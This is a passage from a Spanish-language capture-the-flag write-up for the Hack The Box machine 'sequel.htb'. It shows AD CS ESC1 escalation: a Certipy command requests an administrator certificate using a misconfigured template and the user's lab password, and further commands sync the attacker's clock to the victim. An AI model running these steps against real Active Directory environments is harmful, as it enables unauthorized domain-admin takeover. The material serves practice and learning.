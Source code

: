 Ahora haremos lo mismo que hicimos con `certify` con otra herramienta que es `Certipy`. Para mas detalles sobre la explotación de certificados podemos ir al sitio web de [ESC 1 missconfigured certifigured](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1-explained)

Haremos una petición del certificado con el usuario de `administrator`

```python
❯ certipy req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -target sequel.htb -ca sequel-dc-ca -template UserAuthentication -upn administrator@sequel.htb -debug
```

![20240313104232.png](20240313104232.png)

Luego obtendremos un archivo `administrator.pfx` que lo usaremos para obtener el hash `NTLM`

![20240313113702.png](20240313113702.png)

Vemos que tenemos problemas con nuestra configuración de tiempo con la maquina victima, para ello lo que haremos será deshabilitar la sincronización de nuestra maquina atacante virtualizada en `virtual box` 

```python
❯ timedatectl set-ntp 0
```

Ahora haremos uso de `ntpdate` para sincronizar nuestra hora local de nuestra maquina atacante con la maquina victima.

```python
❯ sudo ntpdate [IP]
```

![20240313140812.png](20240313140812.png)
